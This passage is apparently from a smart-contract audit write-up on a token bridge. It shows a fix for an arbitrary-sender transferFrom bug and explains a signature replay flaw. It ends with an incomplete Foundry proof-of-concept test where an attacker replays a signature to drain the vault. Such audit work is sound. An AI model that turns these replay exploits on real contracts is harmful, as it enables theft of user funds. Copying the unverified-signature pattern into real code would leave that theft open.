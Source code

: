 This code does not require any output; as long as it runs without error, the self-deposit succeeded. Here we only tried twice; in fact, it can loop infinitely. The fix for these two vulnerabilities is the same and has been provided in `slither`'s official documentation.

```text-x-diff
    function depositTokensToL2(address from, address l2Recipient, uint256 amount) external whenNotPaused {
        if (token.balanceOf(address(vault)) + amount > DEPOSIT_LIMIT) {
            revert L1BossBridge__DepositLimitReached();
        }
-       token.safeTransferFrom(from, address(vault), amount);
+       token.safeTransferFrom(msg.sender, address(vault), amount);

        emit Deposit(from, l2Recipient, amount);
    }
```

# Signature Replay

The contract uses `ECDSA` signatures. We don't need to know exactly how the signatures are implemented; we only need to note that signature components `v`, `r`, `s` are publicly visible on-chain when the contract transaction occurs. If the signature content is not properly verified, it will lead to signature replay attacks, which is very serious. Such vulnerabilities allow attackers to impersonate anyone to perform transactions.

```application-javascript-env-frontend
@>  function withdrawTokensToL1(address to, uint256 amount, uint8 v, bytes32 r, bytes32 s) external {
        sendToL1(
            v,
            r,
            s,
            abi.encode(
                address(token),
                0, // value
                abi.encodeCall(IERC20.transferFrom, (address(vault), to, amount))
            )
        );
    }
```

The `withdrawTokensToL1` function uses signatures without any verification. We can write exploit code to verify if this vulnerability can be exploited. The exploit process is simple: first, put some money in the vault; then the `attacker` deposits money into the vault; finally, the attacker reuses the previously used signature to withdraw all funds.

```application-javascript-env-frontend
    function testSigReplay() public {
        address attacker = makeAddr("attacker");
        uint256 vaultInitBalance = 1000e18;
        uint256 attackerInitBalance = 100e18;
        deal(address(token), address(vault), vaultInitBalance);
        deal(address(token), address(attacker), attackerInitBalance);
        console2.log("stage 1");
        console2.log("balance of vault: ", token.balanceOf(address(vault)));
        console2.log("balance of attacker: ", token.balanceOf(address(attacker)));
        
        vm.startPrank(attacker);
        token.approve(address(tokenBridge), type(uint256).max);
        tokenBridge.depositTokensToL2(attacker, attacker, attackerInitBalance);
        console2.log("stage 2");
        console2.log("balance of vault: ", token.balanceOf(address(vault)));
        console2.log("balance of attacker: ", token.balanceOf(address(attacker)));


```